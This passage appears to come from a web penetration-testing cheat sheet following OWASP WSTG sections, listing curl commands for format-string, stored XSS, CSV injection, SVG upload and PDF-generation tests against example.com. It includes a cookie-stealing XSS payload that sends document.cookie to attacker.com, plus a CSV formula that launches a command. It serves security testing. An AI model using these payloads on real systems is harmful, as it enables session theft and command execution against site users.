 ```bash
# Test for format string in headers
curl -s -H "User-Agent: %x.%x.%x.%x" https://example.com/

# Test for format string in cookies
curl -s -H "Cookie: session=%x.%x.%x.%x" https://example.com/

# Use specialized tools for format string testing
python3 formatstring.py -u "https://example.com/page?param=INJECT"
```

## WSTG-INPV-14: Testing for Incubated Vulnerability

**Objective**: Identify injections that are stored and require a recall step to the stored injection (i.e.: CSV Injection, Blind Stored XSS, File Upload) and understand how a recall step could occur.

### Commands

```bash
# Test for stored XSS with delayed execution
curl -s -X POST "https://example.com/comments" -d "comment=<img src=x onerror=alert(document.domain)>"
curl -s "https://example.com/comments"

# Test for CSV injection
curl -s -X POST "https://example.com/data" -d "name=John,=cmd|' /C calc'!A1"
curl -s "https://example.com/export?format=csv"

# Test for stored file upload vulnerabilities
# 1. Create a malicious file
echo '<svg onload="alert(1)"/>' > malicious.svg
# 2. Upload the file
curl -s -X POST "https://example.com/upload" -F "file=@malicious.svg"
# 3. Access the uploaded file
curl -s "https://example.com/uploads/malicious.svg"

# Test for stored injection in user profiles
curl -s -X POST "https://example.com/profile" -d "bio=<script>alert(document.cookie)</script>" -H "Cookie: session=YOUR_SESSION_COOKIE"
curl -s "https://example.com/user/profile"

# Test for blind stored XSS using out-of-band techniques
curl -s -X POST "https://example.com/comments" -d "comment=<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>"

# Test for stored injection in PDF generation
curl -s -X POST "https://example.com/report" -d "name=<script>alert(1)</script>"
curl -s "https://example.com/report/download?id=123"
```

## WSTG-INPV-15: Testing for HTTP Splitting Smuggling
